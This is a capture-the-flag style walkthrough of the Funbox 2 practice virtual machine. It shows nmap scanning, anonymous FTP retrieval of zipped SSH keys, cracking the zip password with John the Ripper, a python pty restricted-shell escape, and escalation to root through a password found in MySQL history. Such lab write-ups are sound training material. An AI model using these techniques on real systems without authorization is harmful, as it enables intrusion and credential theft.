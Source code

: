 <div style="background-color: rgb(50, 50, 50);">
<span style ="color:grey">

# \[----Funbox 2 Guide----\]

## [----Setup Requirments----]
First run a Kali Linux Machine, PFSense 2, and the Funbox 2 box.

Login on the Kali Linux Machine and launch a terminal

## [----Key----]
Lightblue Text indicates a detail such as a ran command or relevant important information 

<span style="color:darkgreen">Dark green Text indicates command results
## \[----Tools Used----\]
`nmap`</br>
`ftp`</br>
`ssh`</br>
`python3`</br>
`johntheripper`</br>
## \[----Enumeration----\]

at \[03/29/23 1:09:35\] i ran the following command `sudo namp -PO 192.168.10.0/24` to find the machine's ip and relevant information about services using `-PO` to bypass filtering on the ports of the machine which returned the following


> Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-29 13:09 EDT</br>
> Nmap scan report for pfSense.home.arpa (192.168.10.1)</br></br>
> Host is up (0.00046s latency).</br>
> Not shown: 998 filtered tcp ports (no-response)</br>
> PORT   STATE SERVICE</br>
> 53/tcp open  domain</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:B8:0B:67 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.6</br>
> Host is up (0.00031s latency).</br>
> Not shown: 997 closed tcp ports (reset)</br>
> PORT   STATE SERVICE</br>
> 21/tcp open  ftp</br>
> 22/tcp open  ssh</br>
> 80/tcp open  http</br>
> MAC Address: 08:00:27:CF:01:65 (Oracle VirtualBox virtual NIC)
>
> Nmap scan report for 192.168.10.3</br>
> Host is up (0.0000030s latency).</br>
> All 1000 scanned ports on 192.168.10.3 are in ignored states.</br>
> Not shown: 1000 closed tcp ports (reset)
>
> Nmap done: 256 IP addresses (3 hosts up) scanned in 6.89 seconds
> 

this scan revealed the following services `FTP`, `SSH`, and `HTTP` running on the vulnerable machine at the ip address of `192.168.10.6`

## \[----FTP----\]

using this information at \[03/29/23 1:16:27\] i ran `ftp 192.168.10.6 -p 21` to access the relevant running FTP service logging in under the anonymous username

upon logging on under the <span style="color:darkgrey">**anonymous** user account with no password i ran `ls -la` to retrieve the directory contents of the server which returned the following information


> 229 Entering Extended Passive Mode (|||31812|)</br>
> 150 Opening ASCII mode data connection for file list</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .</br>
> drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..</br>
> -rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip</br>
> -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip</br>
> -rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users</br>
> -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg</br>
> -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip</br>
> 226 Transfer complete
> 

with the gained knowledge of the accessible files i used `get` to obtain `.@users`, `.@admins` and all the `.zip` files located on the server

upon collection of the following files i exited the ftp server using `exit` at \[03/29/23 1:25:11\]  

## \[----FTP Server File Analysis----\]

using the command `cat .@users` in the directory containing the downloaded files off the ftp server i gained the following **Valuable** information


> Hi Users,
>
> be carefull with your keys. Find them in %yourname%.zip.</br>
> The passwords are the old ones.
>
> Regards</br>
> root
> 

using this information i attempted to extract files from `tom.zip` using `unzip` which revealed a password requirment on the zip file.


> Archive:  tom.zip</br>
> \[tom.zip\] id_rsa password: 
> 

with this information i used the command of `zip2john tom.zip >> tom.hash` to generate a <span style="color:darkgrey">**johntheripper**  crackable hash

doing the command `john tom.hash` at \[03/29/23 1:36:36\] revealed the following information including the password for the zip


> Using default input encoding: UTF-8</br>
> Loaded 1 password hash (PKZIP [32/64])</br>
> Will run 4 OpenMP threads</br>
> Proceeding with single, rules:Single</br>
> Press 'q' or Ctrl-C to abort, almost any other key for status</br>
> Almost done: Processing the remaining buffered candidate passwords, if any.</br>
> Proceeding with wordlist:/usr/share/john/password.lst</br>
> **iubire**           (tom.zip/id_rsa)     </br>
> 1g 0:00:00:00 DONE 2/3 (2023-03-29 13:36) 20.00g/s 937980p/s 937980c/s 937980C/s 123456..felipes</br>
> Use the "--show" option to display all of the cracked passwords reliably</br>
> Session completed. 
> 

with this i did `unzip tom.zip` and entered the password of `iubire` giving me tom's id_rsa key

## \[----Accessing the Machine And Elevating Privilege----\]

with the newly acquired id_rsa key i ran `ssh tom@192.168.10.6 -i id_rsa` at \[03/29/23 1:38:21\] gaining remote acess to the machine via a ssh shell

I quickly upon connecting and opening a shell to the machine learned that the machine was running under restricted shell to bypass this i ran the following `python3 -c 'import pty; pty.spawn("/bin/bash/")'` to gain a unrestricted shell on the machine.

with this new found unrestriction i ran `ls -la` to reveal the contents of tom's home directory


> total 40</br>
> drwxr-xr-x 5 tom  tom  4096 Jul 25  2020 .</br>
> drwxr-xr-x 3 root root 4096 Jul 25  2020 ..</br>
> -rw------- 1 tom  tom     6 Jul 25  2020 .bash_history</br>
> -rw-r--r-- 1 tom  tom   220 Apr  4  2018 .bash_logout</br>
> -rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .cache</br>
> drwx------ 3 tom  tom  4096 Jul 25  2020 .gnupg</br>
> -rw------- 1 tom  tom   295 Jul 25  2020 .mysql_history</br>
> -rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile</br>
> drwx------ 2 tom  tom  4096 Jul 25  2020 .ssh</br>
> -rw-r--r-- 1 tom  tom     0 Jul 25  2020 .sudo_as_admin_successful</br>
> -rw------- 1 tom  tom     0 Jul 25  2020 .viminfo
> 

using these contents i quickly strated running `cat` to look at the contents of the files

the following in order revealed no useful information `.viminfo`, `.sudo_as_admin_successful`, `.profile`.

However upon running `cat .mysql_history` it revealed the following 


> \_HiStOrY\_V2\_
> show\040databases;</br>
> quit</br>
> create\040database\040'support';</br>
> create\040database\040support;</br>
> use\040support</br>
> create\040table\040users;</br>
> show\040tables</br>
> ;</br>
>select\040*\040from\040support</br>
> ;</br>
> show\040tables;</br>
> select\040*\040from\040support;</br>
> insert\040into\040support\040(tom,\040xx11yy22!);</br>
> quit</br>
>

due to the following newfound information i attempted the following command `sudo -l` using `xx11yy22!` as the password required for sudo execution to see if tom had sudo privileges which gave the following output


> Matching Defaults entries for tom on funbox2:</br>
>    env_reset, mail_badpass,</br>
>    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
> </br></br>
> 

> User tom may run the following commands on funbox2:</br>
>    (ALL : ALL) ALL
> 

with this found information i used `sudo -i` to launch a interative shell as the root user and was able to `cat flag.txt` to get the end goal output.

## \[----End Result Analysis----\]
due to the improperly secured services on the host of `192.168.10.6` it is possible to find and abuse information from the service of `ftp` as the <span style ="color:darkgrey">**Anonymous** user account which requires no password to gain information and later a id_rsa key file. Through this it is possible to login to a user ssh account and by using `MySql` command logging find the relevant user password which has complete sudo access and gain root level access.
